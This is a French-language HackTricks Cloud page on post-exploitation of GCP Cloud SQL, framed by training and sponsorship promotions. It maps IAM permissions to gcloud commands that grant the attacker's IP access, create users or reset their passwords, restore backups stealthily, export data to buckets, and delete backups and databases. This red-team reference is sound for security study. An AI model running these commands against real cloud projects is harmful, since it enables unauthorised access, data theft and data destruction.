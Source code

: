 # GCP - Exploitation post Cloud SQL

<details>

<summary><strong>Apprenez le piratage AWS de zéro à héros avec</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong>!</strong></summary>

Autres moyens de soutenir HackTricks :

* Si vous souhaitez voir votre **entreprise annoncée dans HackTricks** ou **télécharger HackTricks en PDF**, consultez les [**PLANS D'ABONNEMENT**](https://github.com/sponsors/carlospolop)!
* Obtenez le [**merchandising officiel PEASS & HackTricks**](https://peass.creator-spring.com)
* Découvrez [**La Famille PEASS**](https://opensea.io/collection/the-peass-family), notre collection d'[**NFTs**](https://opensea.io/collection/the-peass-family) exclusifs
* **Rejoignez le** 💬 [**groupe Discord**](https://discord.gg/hRep4RUj7f) ou le [**groupe telegram**](https://t.me/peass) ou **suivez** moi sur **Twitter** 🐦 [**@carlospolopm**](https://twitter.com/carlospolopm)**.**
* **Partagez vos astuces de piratage en soumettant des PR aux dépôts github** [**HackTricks**](https://github.com/carlospolop/hacktricks) et [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud).

</details>

## Cloud SQL

Pour plus d'informations sur Cloud SQL, consultez :

{% content-ref url="../gcp-services/gcp-cloud-sql-enum.md" %}
[gcp-cloud-sql-enum.md](../gcp-services/gcp-cloud-sql-enum.md)
{% endcontent-ref %}

### `cloudsql.instances.update`, ( `cloudsql.instances.get`)

Pour se connecter aux bases de données, vous **avez juste besoin d'accéder au port de la base de données** et de connaître le **nom d'utilisateur** et le **mot de passe**, il n'y a pas de conditions IAM. Ainsi, une manière simple d'obtenir l'accès, en supposant que la base de données ait une adresse IP publique, est de mettre à jour les réseaux autorisés et **permettre à votre propre adresse IP d'y accéder**.
```bash
# Use --assign-ip to make the database get a public IPv4
gcloud sql instances patch $INSTANCE_NAME \
--authorized-networks "$(curl ifconfig.me)" \
--assign-ip \
--quiet

mysql -h <ip_db> # If mysql

# With cloudsql.instances.get you can use gcloud directly
gcloud sql connect mysql --user=root --quiet
```
Il est également possible d'utiliser **`--no-backup`** pour **perturber les sauvegardes** de la base de données.

Comme ce sont les exigences, je ne suis pas tout à fait sûr de la fonction des permissions **`cloudsql.instances.connect`** et **`cloudsql.instances.login`**. Si vous le savez, envoyez une PR !

### `cloudsql.users.list`

Obtenir **une liste de tous les utilisateurs** de la base de données :
```bash
gcloud sql users list --instance <intance-name>
```
### `cloudsql.users.create`

Cette permission permet de **créer un nouvel utilisateur dans** la base de données :
```bash
gcloud sql users create <username> --instance <instance-name> --password <password>
```
### `cloudsql.users.update`

Cette permission permet de **mettre à jour un utilisateur dans** la base de données. Par exemple, vous pourriez changer son mot de passe :

{% code overflow="wrap" %}
```bash
gcloud sql users set-password <username> --instance <instance-name> --password <password>
```
{% endcode %}

### `cloudsql.instances.restoreBackup`, `cloudsql.backupRuns.get`

Les sauvegardes peuvent contenir des **informations sensibles anciennes**, il est donc intéressant de les vérifier.\
**Restaurer une sauvegarde** dans une base de données :
```bash
gcloud sql backups restore <backup-id> --restore-instance <instance-id>
```
Pour le faire de manière plus discrète, il est recommandé de créer une nouvelle instance SQL et de récupérer les données là-bas au lieu de dans les bases de données actuellement en fonctionnement.

### `cloudsql.backupRuns.delete`

Cette permission permet de supprimer des sauvegardes :
```bash
gcloud sql backups delete <backup-id> --instance <instance-id>
```
### `cloudsql.instances.export`, `storage.objects.create`

**Exporter une base de données** vers un Bucket Cloud Storage pour y accéder depuis cet emplacement :
```bash
# Export sql format, it could also be csv and bak
gcloud sql export sql <instance-id> <gs://bucketName/fileName>
```
### `cloudsql.instances.import`, `storage.objects.get`

**Importer une base de données** (écraser) à partir d'un Cloud Storage Bucket :
```bash
# Import format SQL, you could also import formats bak and csv
gcloud sql import sql <instance-id> <gs://bucketName/fileName>
```
### `cloudsql.databases.delete`

Supprimer une base de données de l'instance db :
```bash
gcloud sql databases delete <db-name> --instance <instance-id>
```
<details>

<summary><strong>Apprenez le hacking AWS de zéro à héros avec</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong>!</strong></summary>

Autres moyens de soutenir HackTricks :

* Si vous souhaitez voir votre **entreprise annoncée dans HackTricks** ou **télécharger HackTricks en PDF**, consultez les [**PLANS D'ABONNEMENT**](https://github.com/sponsors/carlospolop)!
* Obtenez le [**merchandising officiel PEASS & HackTricks**](https://peass.creator-spring.com)
* Découvrez [**La Famille PEASS**](https://opensea.io/collection/the-peass-family), notre collection d'[**NFTs**](https://opensea.io/collection/the-peass-family) exclusifs
* **Rejoignez le** 💬 [**groupe Discord**](https://discord.gg/hRep4RUj7f) ou le [**groupe telegram**](https://t.me/peass) ou **suivez**-moi sur **Twitter** 🐦 [**@carlospolopm**](https://twitter.com/carlospolopm)**.**
* **Partagez vos astuces de hacking en soumettant des PR aux dépôts github** [**HackTricks**](https://github.com/carlospolop/hacktricks) et [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud).

</details>
